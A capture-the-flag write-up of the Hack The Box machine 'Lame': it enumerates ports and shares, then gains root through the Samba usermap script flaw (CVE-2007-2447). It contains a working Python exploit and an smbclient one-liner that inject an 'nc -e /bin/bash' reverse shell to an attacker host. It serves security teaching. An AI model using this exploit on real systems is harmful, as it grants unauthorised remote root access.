

# Beginner Track - Lame 

## Enumeration

```
rustscan 10.129.72.52 -- -sC -sV -o port_scan

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have an open FTP port (21) with Anonymous login allowed, an SSH port (22), open samba ports (139,445) and a a distrubuted c/c++ compiler server on port 3632.

## Examine Port 21 - Anonymous allowed

Connecting to the FTP server as client Anonymous works, however, the directory is completely empty.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

## Examine Port 139/445

Let's start by enumerating the smb directories.
```
└──╼ $ smbmap -H 10.129.72.52   
[+] IP: 10.129.72.52:445        Name: 10.129.72.52                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))-
        WORKGROUP            LAME
```

Obviously we have full read and write access to the `tmp` share. 

```
└──╼ $ smbclient //10.129.72.52/tmp
Enter WORKGROUP\ctf's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan  6 13:57:48 2021
  ..                                 DR        0  Sat Oct 31 08:33:58 2020
  .ICE-unix                          DH        0  Wed Jan  6 13:45:02 2021
  5571.jsvc_up                        R        0  Wed Jan  6 13:46:17 2021
  vmware-root                        DR        0  Wed Jan  6 13:45:29 2021
  .X11-unix                          DH        0  Wed Jan  6 13:45:30 2021
  .X0-lock                           HR       11  Wed Jan  6 13:45:30 2021
  vgauthsvclog.txt.0                  R     1600  Wed Jan  6 13:45:00 2021

                7282168 blocks of size 1024. 5385876 blocks available
```

After investigating all the files, and finding nothing, I looked up if there are any known vulnerabilities for this specific Samba version (3.0.20).

```
searchsploit samba 3.0.20
```



## Exploitation

The one we need is the "Username" map script. There are two ways you can exploit this vulnerability. Either with metasploit, which runs the exploit without telling you what actually happens in the background OR do it manually and you learn every single step. But that's totally up to you. I decided to try the manual approach.

Explanation of the vulnerability:

CVE-2007-2447 - Samba usermap script
Samba 3.0.0 - 3.0.25rc3 are subject for Remote Command Injection Vulnerability (CVE-2007-2447), allows remote attackers to execute arbitrary commands by specifying a username containing shell meta characters.

The root cause is passing unfiltered user input provided via MS-RPC calls to /bin/sh when invoking non-default "username map script" configuration option in smb.conf, so no authentication is needed to exploit this vulnerability.

To exploit this vulnerability, all you need to do is to change the username for authentication to your payload in combination with `nohup`. I wrote a short python script for that purpose.

```python
#!/usr/bin/python

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'nc -e /bin/bash 10.10.14.50 4444'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Done")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

Here we connect with the user set to our reverse shell payload. 

```
└──╼ $ python3 exploit.py 10.129.72.52 139 10.10.14.50 4444
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Done
```

This results in:

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.72.52] 43267
id
uid=0(root) gid=0(root)
```

An alternative would be to use smbclient to connect to the tmp share.

Afterwards type following:

```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.50 4444`"
```
This is the manual approach without a script.

## Post Exploitation

Now we can obtain the userflag (/home/makis/user.txt) and the rootflag (/root/root.txt)